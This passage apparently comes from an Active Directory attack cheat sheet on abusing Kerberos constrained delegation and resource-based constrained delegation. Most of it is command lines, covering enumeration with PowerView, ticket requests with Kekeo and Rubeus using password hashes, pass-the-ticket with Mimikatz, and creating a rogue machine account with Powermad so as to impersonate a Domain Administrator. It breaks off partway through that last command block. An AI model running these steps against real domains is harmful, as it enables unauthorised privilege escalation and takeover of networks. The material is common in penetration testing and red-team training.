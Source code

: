 **Note:** We can also use Rubeus!

### **Constrained Delegation**

**Using PowerView and Kekeo:**

```
#Enumerate Users and Computers with constrained delegation
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

#If we have a user that has Constrained delegation, we ask for a valid tgt of this user using kekeo
tgt::ask /user:<UserName> /domain:<Domain's FQDN> /rc4:<hashedPasswordOfTheUser>

#Then using the TGT we have ask a TGS for a Service this user has Access to through constrained delegation
tgs::s4u /tgt:<PathToTGT> /user:<UserToImpersonate>@<Domain's FQDN> /service:<Service's SPN>

#Finally use mimikatz to ptt the TGS
Invoke-Mimikatz -Command '"kerberos::ptt <PathToTGS>"'
```

_ALTERNATIVE:_ Using Rubeus:

```
Rubeus.exe s4u /user:<UserName> /rc4:<NTLMhashedPasswordOfTheUser> /impersonateuser:<UserToImpersonate> /msdsspn:"<Service's SPN>" /altservice:<Optional> /ptt
```

Now we can access the service as the impersonated user!

🚩 **What if we have delegation rights for only a specific SPN? (e.g TIME):**

In this case we can still abuse a feature of kerberos called "alternative service". This allows us to request TGS tickets for other "alternative" services and not only for the one we have rights for. Thats gives us the leverage to request valid tickets for any service we want that the host supports, giving us full access over the target machine.

### **Resource Based Constrained Delegation**

_If we have GenericALL/GenericWrite privileges on a machine account object of a domain, we can abuse it and impersonate ourselves as any user of the domain to it. For example we can impersonate Domain Administrator and have complete access._

Tools we are going to use:

- [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/dev/Recon)
- [Powermad](https://github.com/Kevin-Robertson/Powermad)
- [Rubeus](https://github.com/GhostPack/Rubeus)

First we need to enter the security context of the user/machine account that has the privileges over the object. If it is a user account we can use Pass the Hash, RDP, PSCredentials etc.

Exploitation Example:

```
#Import Powermad and use it to create a new MACHINE ACCOUNT
. .\\Powermad.ps1
New-MachineAccount -MachineAccount <MachineAccountName> -Password $(ConvertTo-SecureString 'p@ssword!' -AsPlainText -Force) -Verbose

#Import PowerView and get the SID of our new created machine account
. .\\PowerView.ps1
$ComputerSid = Get-DomainComputer <MachineAccountName> -Properties objectsid | Select -Expand objectsid

#Then by using the SID we are going to build an ACE for the new created machine account using a raw security descriptor:
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"$SDBytes = New-Object byte[] ($SD.BinaryLength)
```
